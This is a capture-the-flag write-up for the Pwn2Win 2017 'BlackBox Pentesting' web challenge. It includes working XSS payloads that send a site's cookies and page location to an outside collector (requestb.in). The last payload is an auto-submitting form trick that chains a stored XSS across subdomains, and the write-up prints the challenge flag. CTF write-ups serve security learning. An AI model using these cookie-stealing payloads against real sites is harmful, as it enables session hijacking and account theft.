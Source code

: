 # Pwn2Win 2017 - BlackBox Pentesting

```
Our agents found a BSC server which is used to contact one of the Corp's sysadmins. We managed to get his
IP (45.77.146.27), but we still haven't found it's domain. After obtaining the domain, we believe it's
possible to exploit their website somehow, and then obtain sensitive data. Use your old school pentesting
skills and you will be rewarded!

dir(search|buster|*) tools NOT needed and NOT allowed!


Id: blackbox_pentesting

Total solves: 4

Score: 420

Categories: Web, Recon
```

For this challenge, the only thing that we have is an IP. The description suggests that we should reverse-dns this ip to get the corresponding domain.

I used [dnstrails.com](http://dnstrails.com/) and it showed me that the domain was `bloodsuckers.world`.
The website was made of a contact form asking for a name and a message. And that was all, nothing else. I tried both SQLi and XSS injection, and it turned out that the message is XSS-injectable, so i tried to steal the admin's cookies:

```html
<script>
new Image().src="http://requestb.in/XXXX?cookie=" + document.cookie;
</script>
```

(I used [requestb.in](http://requestb.in) the whole challenge)

And the cookies where: `Nice_try!=But_you_need_to_dig_deeper`

Nice, i'm getting troll :')

So let's dig deeper and print more information. I tried both local and session storage, and both were empty. I tried to print the HTML of the page, and found nothing interesting.
Then i tried to print the URL of the page:

```html
<script>
new Image().src="http://requestb.in/XXXXX?path=" + encodeURI(document.location);
</script>
```

Turned out to be `http://sandbox.bloodsuckers.world/render` !

Oh, it's not the same domain, so the cookies that i'm reading are the ones of `sandbox.bloodsuckers.world` and not the ones of `bloodsuckers.world` (cookies aren't shared (by default) between subdomains).

So here came the point where i struggled the most, and i suddenly realised that not only the message is XSS-injectable, but the username too ! And guess what, when you submit the form, it says "Dear XXX, thank you and we will answer you shortly" (or something like that). 

So here was the plan:
  1) First, submit a message that is going to be read in `sandbox.bloodsuckers.world`
  2) Use this message to submit the form of `bloodsuckers.world` for the user, using a name that contains an XSS injection to steal the cookie
  3) At the page 'Dear XXX', the code is executed and the cookie are stolen!
  
Easy, or no. The name is limited to 12 characters only (client-side and server-side checked).
But if you send it twice, the backend application is gonna concat them into one, and only the first one is limited to 12 characters.

With all that, i was ready to craft the ultimate payload:

```html
<script>
var form = document.createElement("form");
form.setAttribute("method", "POST");
form.setAttribute("action", "http://bloodsuckers.world/admin/contact");

var hiddenField = document.createElement("input");
hiddenField.setAttribute("type", "hidden");
hiddenField.setAttribute("name", "name");
hiddenField.setAttribute("value", "lol");

var hiddenField3 = document.createElement("input");
hiddenField3.setAttribute("type", "hidden");
hiddenField3.setAttribute("name", "name");
hiddenField3.setAttribute("value", '\'; new Image().src="https://requestb.in/XXXXX?cookie=" + document.cookie; //');


var hiddenField2 = document.createElement("input");
hiddenField2.setAttribute("type", "hidden");
hiddenField2.setAttribute("name", "message");
hiddenField2.setAttribute("value", "lol2");

form.appendChild(hiddenField);
form.appendChild(hiddenField2);
form.appendChild(hiddenField3);

document.body.appendChild(form);
form.submit();

</script>
```

And the flag was `CTF-BR{D0_y0u_eV3n_5oP?}`



Thank you for reading,

The `Rapace Diabolique`

